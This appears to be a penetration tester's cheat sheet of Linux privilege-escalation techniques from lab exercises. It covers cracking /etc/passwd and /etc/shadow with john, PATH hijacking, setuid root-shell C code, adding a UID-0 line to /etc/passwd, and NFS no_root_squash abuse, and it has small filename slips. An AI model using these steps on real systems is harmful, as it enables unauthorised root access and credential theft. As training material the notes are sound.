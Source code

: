 # Linux

## Methodology

- Scripts
    - LinEnum - [Link](https://github.com/rebootuser/LinEnum)
    - LinpPeas - [Link](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

- sudo -l

Take a look at the variables like **LD_PRELOAD**
Take a look which commands you can run as sudo

```console
$ sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl   
```



## Unshadow Passwd & Shadow

You need to download 2 files. /etc/passwd & /etc/shadow

```console
$ unshadow <passwd> <shadow> > hashes.txt
```

Then crack it with john

```console
$ john --wordlist=/usr/share/wordlists/rockyou.txt --format=sha512crypt new.txt 
Using default input encoding: UTF-8
Loaded 3 password hashes with 3 different salts (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Press 'q' or Ctrl-C to abort, almost any other key for status
Password1        (karen)
Password1        (user2)
test123          (gerryconway)
3g 0:00:00:13 DONE (2022-02-19 19:18) 0.2155g/s 1268p/s 1783c/s 1783C/s 111292..ellie123
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

## Cron

read cron jobs with `/etc/crontab`

For example, tar, 7z, rsync, etc., can be exploited using their wildcard feature

Be sure the file has `chmod +x`
## Environment var

Show PATH var
```console
echo $PATH
```

Add direcotry to PATH var
```console
export PATH=/tmp:$PATH
```

Find writeble folders
```console
$ find / -writable 2>/dev/null |cut -d "/" -f 2 | sort -u
```

```console
#!/bin/bash
/bin/bash
```
Set chmod 777

```c
#Spawn Bash C
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
int main (void) {
        setuid(0);
        setgid(0);
        system("/bin/bash -p");
        return 0;
}
```
set chmod x+s

## SUID

Compare executables with [GTFOBins](https://gtfobins.github.io/)

Find SUID files:

```console
$ find / -perm -u=s -type f 2>/dev/null
```

## Writeble files

**/etc/passwd**

Format: `test:x:0:0:root:/root:/bin/bash`

1. Username: It is used when user logs in. It should be between 1 and 32 characters in length.
2. Password: An x character indicates that encrypted password is stored in /etc/shadow file. Please note that you need to use the passwd command to compute the hash of a password typed at the CLI or to store/update the hash of the password in /etc/shadow file, in this case, the password hash is stored as an "x".

3. User ID (UID): Each user must be assigned a user ID (UID). UID 0 (zero) is reserved for root and UIDs 1-99 are reserved for other predefined accounts. Further UID 100-999 are reserved by system for administrative and system accounts/groups.
4. Group ID (GID): The primary group ID (stored in /etc/group file)
5. User ID Info: The comment field. It allow you to add extra information about the users such as user’s full name, phone number etc. This field use by finger command.
6. Home directory: The absolute path to the directory the user will be in when they log in. If this directory does not exists then users directory becomes /
7. Command/shell: The absolute path of a command or shell (/bin/bash). Typically, this is a shell. Please note that it does not have to be a shell.

```console
New entry
$ new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash
```

## Capabilities

Find capabilities:

```console
$ getcap -r / 2>/dev/null
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/ping = cap_net_raw+ep
/home/karen/vim = cap_setuid+ep
/home/ubuntu/view = cap_setuid+ep
```

Look at [GTFOBins](https://gtfobins.github.io/) for leverage

## NFS

Check /etc/exports for "no_root_squash":
```console
# /etc/exports: the access control list for filesystems which may be exported
#               to NFS clients.  See exports(5).
#
# Example for NFSv2 and NFSv3:
# /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
#
# Example for NFSv4:
# /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
# /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)
#
/home/backup *(rw,sync,insecure,no_root_squash,no_subtree_check)
/tmp *(rw,sync,insecure,no_root_squash,no_subtree_check)
/home/ubuntu/sharedfolder *(rw,sync,insecure,no_root_squash,no_subtree_check)
```

Look for mountable shares:
```console
$ showmount -e 10.10.193.66
Export list for 10.10.193.66:
/home/ubuntu/sharedfolder *
/tmp                      *
/home/backup              *
```

Mount one shared dir with "no_root_squash":
```console
$ mkdir /tmp/shared
$ sudo mount -o rw 10.10.193.66:/home/backup /tmp/shared/
```

Create file inside shared:
```c
int main(){
        setgid(0);
        setuid(0);
        system("/bin/bash");
        return 0;
}
```
Compile the code:
```console
$ gcc root.c -o nfs -w

#ls -la
total 28
drw-r--r-- 2 root root  4096 20. Feb 12:26 .
drwxrwxrwt 1 root root   822 20. Feb 12:26 ..
-rwxr-xr-x 1 root root 16712 20. Feb 12:26 nfs
-rw-r--r-- 1 root root    71 20. Feb 12:26 root.c

$ chmod +s root
$ ls -la
total 28
drwxr-xr-x 2 root root  4096 20. Feb 12:35 .
drwxrwxrwt 1 root root   834 20. Feb 12:35 ..
-rwsr-sr-x 1 root root 16712 20. Feb 12:35 root
-rw-r--r-- 1 root root    99 20. Feb 12:33 root.c
```

